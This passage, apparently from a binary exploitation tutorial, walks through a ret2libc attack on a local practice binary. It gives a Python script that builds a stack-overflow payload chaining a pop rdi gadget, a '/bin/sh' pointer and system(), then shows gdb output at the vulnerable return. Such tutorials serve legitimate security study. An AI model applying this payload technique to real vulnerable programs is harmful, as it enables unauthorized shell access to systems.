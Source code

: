 The third gadget that pops a value off the stack into RDI is perfect. We now have everything we need to construct our exploit: 

```python
#!/usr/bin/env python

from struct import *

buf = ""
buf += "A"*104                              # junk
buf += pack("<Q", 0x00000000004006a3)       # pop rdi; ret;
buf += pack("<Q", 0x4006ff)                 # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a5ac40)           # address of system()

f = open("in.txt", "w")
f.write(buf)
```

This exploit will write our payload into in.txt which we can redirect into the binary within gdb. Let's go over it quickly:

- Line 7: We overwrite RIP with the address of our ROP gadget so when vuln() returns, it executes pop rdi; ret. 
- Line 8: This value is popped into RDI when pop rdi is executed. Once that's done, RSP will be pointing to 0x7ffff7a5ac40; the address of system(). 
- Line 9: When ret executes after pop rdi, execution returns to system(). system() will look at RDI for the parameter it expects and execute it. In this case, it executes "/bin/sh". 

Let's see it in action in gdb. We'll set a breakpoint at vuln()'s return instruction: 

```text
gdb-peda$ br *vuln+73
Breakpoint 1 at 0x40060f
```

Now we'll redirect the payload into the binary and it should hit our first breakpoint: 

```
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 128 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(
.
.
.
[-------------------------------------code-------------------------------------]
   0x400604 <vuln+62>:  call   0x400480 <puts@plt>
   0x400609 <vuln+67>:  mov    eax,0x0
   0x40060e <vuln+72>:  leave
=> 0x40060f <vuln+73>:  ret
   0x400610 <main>: push   rbp
   0x400611 <main+1>:   mov    rbp,rsp
   0x400614 <main+4>:   sub    rsp,0x10
   0x400618 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe508 --> 0x4006a3 (<__libc_csu_init+99>:    pop    rdi)
0008| 0x7fffffffe510 --> 0x4006ff --> 0x68732f6e69622f ('/bin/sh')
0016| 0x7fffffffe518 --> 0x7ffff7a5ac40 (<system>:  test   rdi,rdi)
0024| 0x7fffffffe520 --> 0x0
0032| 0x7fffffffe528 --> 0x7ffff7a37ec5 (<__libc_start_main+245>:   mov    edi,eax)
0040| 0x7fffffffe530 --> 0x0
0048| 0x7fffffffe538 --> 0x7fffffffe608 --> 0x7fffffffe827 ("/home/koji/ret2libc/ret2libc")
0056| 0x7fffffffe540 --> 0x100000000
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x000000000040060f in vuln ()
```